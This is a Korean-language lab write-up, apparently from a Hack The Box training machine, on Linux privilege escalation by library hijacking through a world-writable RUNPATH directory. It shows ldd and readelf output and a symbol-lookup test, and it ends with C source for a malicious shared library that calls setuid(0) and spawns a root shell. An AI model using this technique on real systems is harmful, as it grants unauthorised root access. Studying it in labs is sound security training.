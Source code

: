 `ldd`로 사용 라이브러리 분석

```powershell
htb-student@NIX02:~$ ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```

기본 라이브러리가 아닌 `libshared.so`를 확인 → RUNPATH 설정을 통해 /development 폴더에서 로드되는 것을 확인.

```powershell
htb-student@NIX02:~$ readelf -d payroll  | grep PATH

 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

`/development` 폴더 권한이 777임을 확인

```powershell
htb-student@NIX02:~$ ls -la /development/

total 8
drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../
```

어떤 함수가 호출되는지 확인

```powershell
htb-student@NIX02:~$ ldd payroll

linux-vdso.so.1 (0x00007ffd22bbc000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)
```

```powershell
htb-student@NIX02:~$ cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
```

```powershell
htb-student@NIX02:~$ ./payroll 

./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```

**악의적인 라이브러리 생성**

```powershell
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void dbquery() {
    printf("Malicious library loaded\\n");
    setuid(0);
    system("/bin/sh -p");
} 

```
